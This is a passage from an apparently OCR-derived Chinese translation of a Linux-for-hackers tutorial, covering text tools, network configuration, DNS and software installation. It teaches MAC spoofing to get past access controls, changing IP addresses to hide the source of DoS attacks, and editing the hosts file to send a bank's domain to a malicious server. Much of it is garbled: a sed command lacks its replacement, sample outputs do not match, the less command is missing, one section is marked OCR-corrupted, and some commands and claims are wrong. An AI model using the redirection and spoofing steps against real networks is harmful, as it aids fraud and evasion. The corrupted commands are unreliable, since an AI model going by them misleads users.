root@kali$ sed s/o/g /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt > /usr/share/metasploit-framework/data/wordlists/unix_passwords2.txt
```

该命令执行替换：你首先提供要查找的术语 (`o`)，然后提供要替换它的术语 (`0`)，中间用斜杠 (`/`) 隔开。`g` 标志告诉 Linux 你想执行全局替换。然后我们将结果保存到新文件 `unix_passwords2.txt`。

现在，当你用 `cat` 显示此文件时，你可以看到字母 o 的所有出现都被替换为了零：

```bash
kali> cat /usr/share/metasploit-framework/data/wordlists/unix_passwords2.txt
123456
12345
123456789
passWord
iloveyou
princes
1234567
123456789
abc123
nicole
daniel
babygirl
monkey
lovely
```

如果你像这样漏掉了末尾的 `g` 命令：

```bash
kali> sed s/o// /usr/share/metasploit-framework/data/wordlists/unix_passwords2.txt
```

它只会将第一个实例替换为零。

## 使用 more 和 less 查看文件

虽然 `cat` 是一个显示文件和创建小文件的良好工具，但在显示大文件时显然有其局限性。当你用 `cat` 查看 `apache2.conf` 时，文件会逐页滚动直到末尾，如果你想从从中获取任何信息，这非常不实用。对于处理较大的文件，我们还有另外两个查看工具：

## 使用 more 控制显示

`more` 命令一次显示文件的一页，并允许你使用 ENTER 键向下翻页。使用 `more` 命令打开 `apache2.conf`：

```bash
kali> more /etc/apache2/apache2.conf
# 这是 Apache 服务器的主配置文件。它包含了
# 为服务器提供指令的配置指令。
# 请访问 http://http.apache.org/docs/2.4/ 了解有关
# 指令的详细信息，以及 /usr/share/doc/apache2/README.Debian 关于 Debian 的
# 提示。
# Apache 2 配置在 Debian 中工作原理摘要：
# Debian 中的 Apache 2 Web 服务器配置与...
# 上游建议的配置 Web 服务器的方法非常不同。这是因为...
# 默认 Apache 2 安装尝试让添加和删除模块、
# 虚拟主机和额外的配置指令变得尽可能灵活...
# 以便使自动化更改和管理服务器...
# 成为可能。
--snip--
----(2)
```


注意，`more`仅显示第一页然后停止，并在左下角告诉我们显示了文件的多少比例（在本例中为 2%）。要查看额外的行或页，请按 `ENTER`。输入 `exit` `q`（退出）。

## 使用 less 显示和过滤

`less`命令与`more`非常相似，但具有额外的功能（因此有了 Linux 常见的亲切俏话“Less is more”）。使用`less`，你不仅可以悠闲地翻阅文件，还可以对其进行术语过滤。
使用`less`命令打开`apache2.conf`：

```bash
kali> /etc/apache/apache2.conf
```

```text
# 这是 Apache 服务器的主配置文件。它包含了

# 为服务器提供指令的配置指令。

# 请访问 http://http.apache.org/docs/v2.4/ 了解有关

# 指令的详细信息，以及 /usr/share/doc/apache2/README.Debian 关于 Debian

# 提示。

# Apache 2 配置在 Debian 中工作原理摘要：

# Debian 中的 Apache 2 Web 服务器配置与...

# 上游建议的配置 Web 服务器的方法非常不同。这是因为...

# 默认 Apache 2 安装尝试让添加和删除模块、

# 虚拟主机和额外的配置指令变得尽可能灵活*

# 以便使自动化更改和管理服务器...

# 成为可能。

--snap--
```

注意屏幕左下角，`less`高亮显示了文件的路径。如果你按下正斜杠 (`/`) 键，`less`将允许你在文件中搜索术语。例如，我们可以按 `/` 搜索`apache2.conf`文件中`mod`的所有出现，正如我们之前用`grep`做的那：

```text
# Apache 2 配置在 Debian 中工作原理摘要：

# Debian 中的 Apache 2 Web 服务器配置与

# 上游建议的配置 Web 服务器的方法非常不同。这是因为...

# 默认 Apache 2 安装尝试让添加和删除模块、

# 虚拟主机和额外的配置指令变得尽可能灵活*

# 以便使自动化更改和管理服务器...

# 成为可能。

# 它被分成几个文件，全部位于 /etc/apache2/ 目录下：

# |-- apache2.conf 是主配置文件（此）。它通过

# 包含其余配置文件来将其组合在一起

# |-- ports.conf 总是从主文件中包含。它

# 应该决定传入连接的端口...

# 随时自定义。

# mods-enabled/, conf-enabled/ 和 sites-enabled/

# 目录中的配置文件包含了分别管理

# 模块、全局配置片段或虚拟主机配置。

# 它们通过链接相应的 *-available/ 文件来激活。查看

#各自的页面获取详细信息。
```

24 第2 章

这会立即带你到`mod`的第一次出现并高亮它。你可以通过输入`n`（下一个）查找下一个出现：

正如你看到的，它带你到了`mod`的下一次出现并高亮了搜索术语。多方便！

## 总结

Linux 有许多处理文本的方法，每种方法都有其优缺点。我们在本章中接触了一些最实用的方法，但我建议你尝试每种方法并形成你自己的偏好。例如，我认为`grep`是必不可少的，而我使用`less`更频繁，但你可能有不同的感受。

## 练习

要完成以下练习，首先导航到`/usr/share/metasploit-framework/data/wordlists`。这是一个密码列表，可以使用 Metasploit（最流行的渗透和黑客框架）对各种密码保护的设备进行暴力破解。

- 1. 使用`cat`命令查看`password.lst`文件的内容。
- 2. 使用`more`命令显示`password.lst`。
- 3. 使用`last`命令查看`password.lst`。
- 4. 使用`nl`命令为`password.lst`中的密码加上行号。应该有 88396 个密码。
- 5. 使用`tail`命令查看`password.lst`的最后 20 个密码。
- 6. 使用`cat`命令显示`password.lst`并管道到查找所有包含 123 的密码。

## 3. 分析与管理网络

理解网络对于任何有志成为黑客的人来说都是至关重要的。在许多情况下，你将通过网络对某些目标进行攻击，而一个优秀的黑客需要知道如何与该网络连接并交互。例如，你可能需要在隐藏自己的互联网协议（IP）地址的情况下连接到计算机，或者你可能需要将目标的域名系统（DNS）查询重定向到你的系统；这类任务相对简单，但需要一些 Linux 网络方面的知识。本章将向你展示一些在网络黑客冒险中用于分析和管理网络的必备 Linux 工具。

## 使用 ifconfig 分析网络

`ifconfig`命令是查看和交互活动网络接口最基础的工具之一。你只需在终端输入`ifconfig`即可查询活跃的网络连接。尝试一下，你应该会看到如下的输出：

```text
kali> ifconfig
eth0: flags=416<U,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet6 fe8::248b:fef3:f0a4:8c2 prefixlen 64 scopeid 0x20<link>
net 00:2c:39:3d:0f:11 txqueuel 1000 (Ethernet)
RX packets 58603 bytes 553310 (3.3 MiB)
RX errors 0 dropped frame 0
TX packets 364 bytes 37089 (36.2 KiB)
TX errors 0 dropped errors carrier 0 collisions
```

```text
lo: flags=73<LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 mask 255.255.0
inet6 :: prefixlen 128 scopeid 0x10<host>
loop txqueuel 1000 (Local Loopback)
RX packets 36 bytes 2712 (2.6 KiB)
RX errors 0 dropped frame 0
TX packets 36 bytes 2712 (2.6 KiB)
TX errors 0 dropped errors carrier 0 collisions
```

```text
--snap--
wlan0: Link enc=Ethernet 00:ca:ca:33:fe:02
```

该命令显示了系统上活动网络接口的一些有用信息。输出的顶部是第一个检测到的接口名称`eth0`，它是 Ethernet0 的缩写（Linux 从 0 开始计数，而不是 1）。这是第一个有线网络连接。如果有更多的以太网接口，它们将以相同的格式显示在输出中（`eth1`、`eth2`等）。

它列出了正在使用的类型（Ethernet），紧随后是`HWaddr`和一个地址。这是刻在每个网络硬件设备——在本例中为网卡（NIC）——上的全局唯一地址，通常被称为*介质访问控制（MAC）*地址。

第二行包含分配给该网络接口的 IP 地址的相关信息（在本例中为`192.168.1.131`）；`Bcast`或广播地址，这是用于向子网上的所有 IP 地址发送信息的地址；最后是*网络掩码*（netmask），它被用于确定 IP 地址的哪部分连接到本地网络。你会在输出的这部分中找到更多技术信息，但这已超出了本 Linux 基础章节的范围。

输出的下一部分显示另一个名为`lo`的网络连接，它是 loopback address（回环地址）的缩写，有时被称为 localhost。这是一个将你连接到自身的特殊软件地址。如果软件和服务没有运行在你的系统上，你就无法使用它。你会使用`lo`来测试系统上的软件，例如你自己的 Web 服务器。`localhost`通常由 IP 地址`127.0.0.1`表示。

第三个连接是接口`wlan0`。只有当你拥有无线接口或适配器时它才会出现，就像我这里一样。注意，它还显示了该设备的 MAC 地址（Maddr）。

来自`ifconfig`的这些信息让你能够连接并操作你的局域网（LAN）设置，这是一项本质的技能。

### 使用 netstat 和 ss 查看网络统计

另一个命令行工具是`netstat`（网络统计）。`netstat`工具显示所有进入或离开我们系统的连接，这有助于监控和排查网络连接。在某些情况下，我曾用它寻找连接到我系统的恶意软件。当你运行此命令时：

```text
kali> netstat -a
```


你将看到类似图 3-1 所示的输出。

你的系统可能看起来不同，但你应该能看到指向你系统的每一个连接。可能有几百个！

要显示所有 TCP 连接，可以使用 `-t` 选项；对于所有 UDP 连接，可以使用 `-u` 选项；对于所有监听状态的连接，可以使用 `-l` 选项。

如果你正在寻找特定的连接，可以将输出通过给 `grep`。

## 检查无线设备

[剩余内容因源文件 OCR 错误而损坏]

### 修改你的网络信息

能够更改 IP 地址和其他网络信息是一项很有用的技能，因为这将在你准备访问其他网络时为你提供帮助。例如，在一次次拒绝服务（DoS）攻击中，你可以伪造你的 IP 地址，使攻击看起来来自另一个源，从而在取证分析期间掩盖你的踪迹。这在 Linux 中是一个相对简单的任务，通过 `ifconfig` 命令完成。

## 分配新的 IP 地址

要更改 IP 地址，输入 `ifconfig` 加上你想要重新分配的接口以及分配给该接口的新 IP 地址。例如，要将 IP 地址 `192.168.1.115` 分配给接口 `eth0`，你需要输入以下内容：

```
kali> sudo ifconfig eth0 192.168.1.115
```

注意你在该命令前加上了 `sudo`，因为这需要 root 权限。执行此操作时，Linux 仅会返回提示符且什么都不说。这是好事！

当你用 `ifconfig` 检查网络连接时，你应该看到你的 IP 地址已更改为你分配的新 IP 地址。

### 修改网络掩码和广播地址

你也可以用 `ifconfig` 命令更改网络掩码（netmask）和广播地址。例如，如果你想为同一个 `eth0` 接口分配 `255.255.0.0` 的掩码和 `192.168.1.255` 的广播地址，你需要输入以下内容：

```
kali> sudo ifconfig eth0 192.168.1.115 netmask 255.255.0.0 broadcast 192.168.1.255

kali>
```

再次，如果你之前的所有操作都正确，Linux 将返回一个新的新的命令提示符。现在再次输入 `ifconfig` 以验证每个参数是否已已相应的更改。

# 伪造你的 MAC 地址

你可以使用 `ifconfig` 来更改你的 MAC 地址（或 `hwaddr`）。MAC 地址是全球唯一的，通常被用作安全措施来防止黑客进入网络，或用于追踪他们。将你的 MAC 地址更改为不同的值非常简单，并且可以抵消这些安全措施。因此，这是绕过网络访问控制的一种非常有用的技术。

要伪造你的 MAC 地址，只需使用 `ifconfig` 命令的 `down` 选项关闭接口（在本例中为 `eth0`）。然后输入 `ifconfig` 命令，后跟接口名称（`hw` 代表硬件 `ether` 代表以太网）以及新的伪造 MAC 地址。最后，使用 `up` 选项恢复接口以使更改生效。这里有一个示例：

```
kali> sudo ifconfig eth0 down

kali> sudo ifconfig eth0 hw ether 00:11:22:33:44:55

kali> sudo ifconfig eth0 up
```

现在，当你用 `ifconfig` 检查设置时，你应该看到 `hwaddr` 已更改为你伪造的 MAC 地址！

# 从 DHCP 服务器分配新 IP 地址

Linux 有一个动态主机配置协议（DHCP）服务器，它运行着一个名为 `dhcpd` 的守护进程（后台运行的进程），或 DHCP 守护。DHCP 服务器为子网上的所有系统分配 IP 地址，并记录每个 IP 地址在任何时候分配给了哪台机器。这对于希望在攻击后追踪黑客的取证分析师来说是一个很好的资源。因此，理解 DHCP 服务器的工作原理是有用的。

通常，为了从局域网连接互联网，你需要 DHCP 分配的 IP。因此，在设置静态 IP 地址后，你必须获取一个新的 DHCP 分配的 IP。要做到这一点，你可以重启系统，但我将向你展示如何在重启重启获取新的 DHCP。

要向 DHCP 请求 IP 地址，只需使用 `dhclient` 命令调用 DHCP 服务器，后跟你想要分配地址的接口。不同的 Linux 发行版使用不同的 DHCP 客户端，但 Kali 基于 Debian，Debian 使用 `dhclient`，因此你可以这样分配新地址：

```
kali> sudo dhclient eth0
```

`dhclient` 命令从指定的网络接口（这里是 `eth0`）发送 `DHCPDISCOVER` 报价。然后它从 DHCP 服务器（在本例中为 `192.168.181.131`）接收一个报价（DPOFFER），并通过 `dhcp request` 向 DHCP 服务器确认 IP 分配：

```
kali| ifconfig

eth0: Linkenc:EthernetHWaddr 00:0c:29:ba:82:0f

addr:192.168.181.131 broadcast:192.168.181.255 Mask:255.255.255.0
```

取决于 DHCP 服务器的配置，每次分配的 IP 地址可能不同。当你输入 `ifconfig` 时，你应该看到 DHCP 服务器为你的 `eth0` 网络接口分配了一个新的 IP 地址、一个新的广播地址和一个子网掩码。

# 操纵域名系统

黑客可以在目标的 DNS（域名系统）中发现信息库。DNS 是互联网的关键组件，尽管它的设计用于将域名翻译为 IP 地址，但黑客可以利用它收集有关目标的信息。

## 使用 dig 检查 DNS

DNS 是将如 `example.com` 的域名翻译为相应 IP 地址的服务；若没有 DNS，你的系统必须记住成千上万个收藏网站的 IP 地址。对于有志黑客来说，最有用的命令之一是 `dig`，它提供了一种收集目标 DNS 信息的方法。这些 DNS 信息可能包括名称服务器的 IP 地址（将目标名称翻译为 IP 地址的服务器）、目标的邮件服务器，以及可能的任何子域名。

例如，输入 `dig example.com` 并添加 `ns` 选项（nameserver 的缩写）：

```
kali> dig example.com ns

--snip--

QUESTION SECTION:

example.com.      IN NS

ANSWER SECTION:

example.com.      IN NS ns.example.net.

example.com.      IN NS ns.example.net.

ADDITIONAL SECTION:

ns.example.net.      IN A 216.239.32.100

--snip--
```

`example.com` 的名称服务器显示在 ANSWER SECTION 中。同时注意 ADDITIONAL SECTION 中，`dig` 查询显示了 DNS 服务器的 IP 地址（216.239.32.100）。`example.com` 部分在你的系统上可能略有不同，或者完全不显示。你可以通过添加 `mx` 选项（mx 代表 mail exchange）使用 `dig` 命令获取连接到域名的邮件服务器。这些信息对于攻击至关重要。例如，`example.com` 邮件服务器的信息显示在 AUTHORITY SECTION 中：

```
kali dig example.com mx

--snip--

QUESTION SECTION:

example.com.      IN MX

AUTHORITY SECTION:

example.com.      IN SOA ns.example.net. example.com. 2023052216003600

--snip--
```

常见的 Linux DNS 服务器是伯克利互联网域名（BIND）。在某些情况下，Linux 用户会将 DNS 称为 BIND，请不要混淆：DNS 和 BIND 都映射单个域名。

## 更改 DNS 服务器

在某些情况下，你可能想使用另一个 DNS 服务器。要这样做，你需要编辑 `resolv.conf` 文件。使用文本编辑器打开 `resolv.conf`，然后在命令行输入编辑器的名称后跟文件名：

```
kali> sudo mousepad /etc/resolv.conf
```

这将打开 `resolv.conf` 文件，它看起来可能像图 3-4。

```
# Generated by NetworkManager

search

nameserver 192.168.1.1
```

图 3-4：文本编辑器中典型的 resolv.conf

当你查看 `resolv.conf` 文件时，你会看到 nameserver 设置为本地 DNS 服务器 `192.168.1.1`。这种方法可行，但如果你想将 DNS 服务器替换为例如 Google 的 `8.8.8.8`，你需要在 `resolv.conf` 文件中放置以下行：

```
nameserver 8.8.8.8
```


然后你只需要保存文件。然而，你也可以通过命令行输入以下命令来实现相同的结果：

```
kali> sudo echo "nameserver 8.8.8.8" > /etc/resolv.conf
```

此命令输出 `nameserver 8.8.8.8` 并将其重定向（`>`）到文件 `/etc/resolv.conf`，替换当前内容。你的 `resolv.conf` 文件现在应该像图 3-5。

```
# Generated by NetworkManager

search.com

nameserver 8.8.8.8
```

图 3-5：更改 `resolv.conf` 文件以指定 Google DNS 服务器

如果你现在打开 `/etc/resolv.conf` 文件，你应该看到它将 DNS 请求指向 Google DNS 服务器而不是本地 DNS 服务器。你的系统现在将通过公共 DNS 服务器解析域名到 IP 地址。这可能意味着域名解析慢一点（几毫秒）。因此，为了保持速度同时保留使用公共服务器选项，你可能希望在 `resolv.conf` 文件中保留本地 DNS 服务器，并在其后加上公共 DNS 服务器。操作系统按照 `/etc/resolv.conf` 中出现的顺序查询每个 DNS 服务器，因此如果在本地 DNS 服务器中找不到域名，系统将引用公共 DNS 服务器。

如果你使用 DHCP 地址且 DHCP 服务器提供了 DNS 设置，DHCP 服务器会在返回 DHCP 地址时替换文件内容。

# 映射你自己的 IP 地址

系统中一个名为 `hosts` 的特殊文件也执行域名–IP 地址翻译。`hosts` 文件位于 `/etc/hosts`，你可以用它指定你自己的 IP 地址–域名映射。换句话说，你可以决定当你在浏览器输入 `www.microsoft.com`（或任何其他域名）时浏览器访问哪个 IP 地址，而不是让 DNS 服务器做决定。作为黑客，这对于使用 `nslookup` 等工具劫持局域网上的 TCP 连接并将流量重定向到恶意 Web 服务器非常有用。

从命令行，输入以下命令（用你偏好的文本编辑器替换 `mousepad`）：

```
kali> sudo mousepad /etc/hosts
```

你现在应该能看到 `hosts` 文件，它看起来可能像图 3-6。

```
127.0.0.1      localhost

127.0.0.1      kali

3

# The following lines are desirable for IPv6 capable hosts

5::1             localhost ip6-localhost ip6-loopback

ff02::1        ip6-allnodes

ff02::2        ip6-allrouters

8
```

图 3-6：一个默认的 Kali `hosts` 文件仅包含指向你 `localhost` 的映射，位于

默认情况下，`hosts` 文件仅包含指向你 `localhost` 的映射，地址为 `127.0.0.1` 以及你的系统主机名（在此情况下为 Kali，地址为 `127.0.0.1`）。但你可以添加任何映射到你喜任意域的 IP 地址。作为这种用法的示例，你可以将 `www.bankofamerica.com` 映射到你的本地网站，地址为 `192.168.181.131`：

```
127.0.0.1      localhost

127.0.0.1      kali

192.168.181.131  bankofamerica.com
```

```
# The following lines are desirable for IPv6 capable hosts

::1             localhost ip6-localhost ip6-loopback

ff02::1        ip6-allnodes

ff02::2        ip6-allrouters
```

确保你在 IP 地址和域名键之间按下 TAB 键，而不是空格。

随着你深入参与黑客活动并学习诸如 `dnsspoof` 和 `Ettercap` 等工具，你将能够使用 `hosts` 文件将你局域网（LAN）上任何访问 `www.bankofamerica.com` 的流量重定向到你位于 `192.168.181.131` 的 Web 服务器。

非常简单，对吧？

## 总结

任何黑客都需要一些基础的 Linux 网络技能来连接、分析和管理网络。随着你的不断进步，这些技能在进行侦察、欺骗和连接目标系统时将变得越来越有用。

## 练习题

- 1. 查找你活跃的网络接口 `eth` 接口的信息。
- 2. 将 `eth0` 上的 IP 地址更改为 `192.168.1.1`。
- 3. 更改 `eth0` 上的硬件地址。
- 4. 检查你是否有任何活跃的无线接口。
- 5. 将你的 IP 地址重置为 DHCP 分配的地址。
- 6. 查找你最喜欢的网站的名称服务器和邮件服务器。
- 7. 将 Google 的 DNS 服务器添加到你的 `/etc/resolv.conf` 文件中，以便当你的系统无法通过分配的地址解析域名查询时，它会引用该服务器。

# 4

## 添加和移除软件

Linux（或任何操作系统）中基础基础的任务之一就是添加和移除软件。你经常需要安装并非你的发行版中附带的软件，或者删除不需要的软件以防其占用硬盘空间。

某些软件需要其他软件才能运行，你有时会发现可以从软件包中一次性下载所需的所有内容，软件包是一组文件——通常是库和其他依赖项——这些是你成功运行某个软件所必需的。当你安装一个包时，其中的所有文件将一起被安装，并附带一个简化软件加载过程的脚本。

在本章中，我们将研究用于添加新软件的三种关键方法：使用 `apt` 软件包管理器、基于 GUI 的安装管理器以及 `git`。

# 使用 apt 处理软件

在基于 Debian 的 Linux 发行版中（包括 Kali 和 Ubuntu），默认软件管理器是高级软件包工具（Advanced Packaging Tool，简称 `apt`），其主命令是 `apt`。在最简单且常用的形式下，你可以使用 `apt` 下载并安装新的软件包，你也可以用它来更新和升级软件。

## 搜索软件包

在下载软件包之前，你可以检查所需的包是否可用于存储库（`repository`），仓库是你的操作系统存储信息的地方。`apt` 工具具有搜索功能，可以检查软件包是否可用。其语法非常直观：

```
sudo apt search keyword
```

注意，我们使用 `apt` 命令来搜索 `apt` 缓存，即它存储包名的地方。例如，如果你正在搜索简单的防火墙（`ufw`）——一种用于保护你的网络或系统的简单但强大的 Linux 防火墙——你需要输入以下命令：

```
kali> sudo apt search ufw
gufw/kali-rolling,kali-rolling 24.0.0-2 all

graphical user interface for ufw

libqt6-protobufwellknowntypes6/kali-rolling 6.7.2-7 amd64

Qt 6 grpc buffers Well known types library

librust-io-dev/kali-rolling 0.3.7-1+b3 amd64

Extension trait for safely dropping I/O writers such as File and

BufWriter Rust source code

plasma-firewall/kali-rolling 6.2.4-1 amd64

Plasma configuration module for firewalls

ufw/kali-rolling,kali-rolling 0.36.2-8 all

program for managing a Netfilter firewall
```

许多文件中都包含 `ufw` 关键字，但在输出的末尾，我们看到了 `ufw`...program for managing a Netfilter firewall。那就是用于管理 Netfilter 防火墙的程序。

# 添加软件

现在 `ufw` 存在于你的仓库中了，你可以使用 `apt` 下载该软件。要在你的系统上安装软件，请使用 `apt` 后接包名。语法如下：

```
sudo apt install packame
```

输出将告诉你你将安装的内容：

```
kali> sudo apt install ufw
[sudo] password for kali:

Reading package lists... Done

Building dependency tree... Done

Calculating upgrade... Done

以下将安装新软件包：

ufw
```

## 移除软件

移除软件时，使用 `apt` 后接软件名称。输出如下：

```
kali> sudo apt remove ufw
```


[sudo] password for kali:

Reading package lists... Done

Building dependency tree... Done

Calculating removal... Done

以下将被移除：

`ufw`

如果你想移除配置文件，请使用 `purge` 选项。你可能会注意到依赖项被自动移除：

```
kali> sudo apt purge ufw
```

[sudo] password for kali:

Reading package lists... Done

Building dependency tree... Done

Calculating removal... Done

以下将被移除：

`ufw`

此操作后将额外额外的 0 B 磁盘空间。是否继续？[Y/n]

## 更新软件包

软件仓库会定期更新新软件或现有软件的版本。这些更新不会自动到达，因此你必须请求将这些更新应用到你的系统。你可以通过输入 `apt` 命令后接 `update` 来更新系统。这将搜索你系统上的所有包并检查是否有可用更新。如果有，则将下载更新：

```
kali> sudo apt update
```

[sudo] password for kali:

Get:1 http://mirrors.of.berkeley.edu/kali kali-rollingInRelease [30.5kb]

Get:2 http://mirrors.of.berkeley.edu/kali kali-rolling/main amd64 Packages [14.9MB]

Get:3 http://mirrors.of.berkeley.edu/kali kali-rolling/non-free amd64 Packages [163kb]

Get:4 http://mirrors.of.berkeley.edu/kali kali-rolling/contrib amd64 Packages [107 kb]

Fetched 15.2 MB in 1 min 4s (236 KB/s)

Reading package lists... Done

## 升级软件包

要升级系统上的现有软件包，请使用 `apt upgrade`。由于升级软件包可能会对你的软件进行更改，你必须以 root 身份运行 `apt` 已知的软件包，即仅存储在仓库中的包。升级可能耗费时间，因此你可能一段时间无法使用系统。

```
kali> sudo apt upgrade
```

以下软件包已自动安装且不再需要：
--snip--
以下软件包将要升级：
--snip--
1101 个已升级，0 个已安装，o 移除，318 个已升级。
需要获取 827 MB 的存档。
执行此操作后，将释放 408 MB 磁盘空间。
您要继续吗？[Y/n]

您应该在输出中看到系统估计了软件软件包所需的硬盘空间。如果想继续并有足够的硬盘空间进行升级，请输入 y。

## 为你的 sources.list 添加存储库

存放特定 Linux 发行版软件的服务器被称为存储库（repositories）。几乎每个发行版都有自己的软件存储库——这些库是针对该发行版开发和配置的——它们可能与其他发行版配合得不佳，或者根本无法。尽管这些存储库通常包含相同或相似的软件，但它们并不是完全相同的，有时具有相同软件的不同版本或完全不同的软件。

当然，你将使用 Kali 存储库，它包含了大量的安全和黑客软件。由于 Kali 专注于安全和黑客，它不包含一些特殊软件和工具，甚至是普通的软件。值得添加一两个备份存储库，以防系统在 Kali 存储库中找不到特定软件时可以在其中进行搜索。

你的系统搜索软件的存储库存储在 `sources.list` 文件中，你可以修改此列表以定义你想从哪些存储库下载软件。我经常在我的 `sources.list` 文件的 Kali 存储库之后添加 Ubuntu 存储库；这样，当我请求下载新软件包时，如果 Kali 存储库中没有，我的系统可能会 Ubuntu 存储库中找到它。

你可以在 `/etc/apt/sources.list` 找到 `sources.list` 文件，并使用任何文本编辑器打开它。我将使用 `mousepad`。要打开 `sources.list` 文件，请在终端输入以下内容，并将 `mousepad` 替换为你编辑器的名称：

```
kali> sudo mousepad /etc/apt/sources.list
```

输入此命令后，你应该会看到像图 4-1 所示的窗口，列出了 Kali 的默认存储库。

| 行号 | 内容 |
| :--- | :--- |
| 1 | 参见 https://www.kali.org/docs/general-use/kali-linux-sources-list-repositories |
| 2 | deb http://kali.org/kali/kali-rolling main contrib non-free non-free-firmware |
| 3 | |
| 4 | 源软件包的额外行 |
| 5 | deb-src http://kali.org/kali/kali-rolling main contrib non-free non-free-firmware |
| 6 | |

图 4-1：`sources.list` 中的 Kali 默认存储库

许多 Linux 发行版将存储库划分为不同的类别。例如，Debian 将其存储库类别划分如下：

- `main`: 包含支持的开源软件
- `universe`: 包含社区维护的开源软件问题
- `multiverse`: 包含受版权或其他法律问题限制的软件
- `restricted`: 包含专有设备驱动
- `backports`: 包含来自较后版本的软件包

我不建议在 `sources.list` 中使用测试（testing）、实验（experimental）或不稳定（unstable）存储库，因为它们可能会向你的系统下载有问题的软件。未完全测试的软件可能会破坏你的新软件包，系统会遍历 `sources.list` 中列出的存储库并选择所需软件包的最新版本。首先检查该存储库是否与你的系统兼容。Kali 基于 Debian 构建，Ubuntu 或 Parrot 也是如此，因此这些存储库与它们每一个都能良好工作。

要添加存储库，只需编辑 `sources.list` 文件，将存储库名称添加到列表中，然后保存文件。例如，假设你想在 Kali 上安装铱星软件 (`gr-iridium`)。通过快速搜索发现，Ubuntu 的人们存储库中也有这个软件。如果你将你的存储库添加到 sources 中，你就可以通过将 Ubuntu 存储库添加到你的 `sources.list` 来安装 `gr-iridium`。（Ubuntu 是最广泛使用的桌面 Linux。）在写本文稿时，你需要将以下存储库位置添加到 `sources.list` 中以添加必要的存储库：

```
deb http://archive.ubuntu.com/ubuntu/saucy universe
deb-src http://archive.ubuntu.com/ubuntu/saucy universe
deb http://archive.ubuntu.com/ubuntu/saucy-updates universe
deb-src http://archive.ubuntu.com/ubuntu/saucy-updates universe
```

如你所见，我们已经将 Ubuntu 存储库添加到了 `sources.list` 中，使我们的系统可以使用它们。

## 使用基于 GUI 的安装程序

较新版本的 Kali 不包含基于 GUI 的软件安装工具，但你始终可以使用 `apt` 命令安装一个。最常用的基于 GUI 的安装工具是 Synaptic 和 Gdebi。让我们安装 Synaptic 并用它来安装 `ufw` 软件包：

```
kali| sudo apt install synaptic
```

[sudo] password for kali

Reading package lists... Done

Building dependency tree... Done

Reading state information... Done

--snip--

Processing triggers for kali -menu ...


一旦安装了 Synaptic，你就可以通过进入 Kali 菜单 Settings -> Synaptic Package Manager 来启动它，这将打开一个像图 4-2 所示的窗口。



图 4-2：Synaptic 软件包管理器界面

现在你可以搜索你要寻找的软件包。只需点击 Search（搜索）选项卡打开搜索窗口。由于你再次寻找 ufw，请在搜索窗口中输入 ufw 并点击 Search。向下滚动搜索结果找到你寻找的软件包。勾选 ufw 旁边的复选框，然后点击 Apply（应用）选项卡，如图 4-3 所示。

添加和删除软件 45



图 4-3：Synaptic 现在将从存储库下载并安装 ufw 以及任何必要的依赖项，如图 4-4 所示。



图 4-4：从 Synaptic 软件包管理器下载 ufw

# 使用 git 安装软件

有时你需要的软件在任何存储库都不可用——特别是当它是全新的时候——但它可能可以在 GitHub (https://www.github.com)，这是一个允许开发者与他人共享软件并提供反馈的网站。例如，如果你在 Kali 存储库中找不到它，可以在搜索栏中输入 cameradar 来在 GitHub 上搜索该软件。一旦在 GitHub 上找到了该软件，你可以在终端中输入 `git clone` 后跟其 URL 来安装它。例如，cameradar 位于 https://github.com/Ullaakat/cameradar。要将其克隆到你的系统，请查看以下命令：

```
kali git clone https://github.com/Ullaakat/cameradar

Cloning into 'cameradar...'

remote: Enumerating objects: 2661, done.

remote: Counting objects: 100% (81/81), done.

remote: Compressing objects: 100% (53/53), done.

remote: Total 2661 (delta 32), reused 53 (delta 25), pack-reused 2580

Receiving objects: 100% (2661/2661), 36.35 MiB | 6.67 MiB/s, done.

Resolving deltas: 100% (1042/1042).
```

`git clone` 命令将该位置的所有数据和文件复制到你的系统中。你可以通过在目标目录使用列出命令 `ls -1` 来检查它们是否成功下载，如下所示：

```
kali ls -1
```

如果你已成功将 cameradar 克隆到你的系统，你应该会看到类似下面的输出：

```
total 80

drwxr-xr-x 2 kali kali 4096 Jan 10 22:19 cameradar

drwxr-xr-x 2 kali kali 4096 Dec 5 11:17 Desktop

drwxr-xr-x 2 kali kali 4096 Dec 5 11:17 Documents

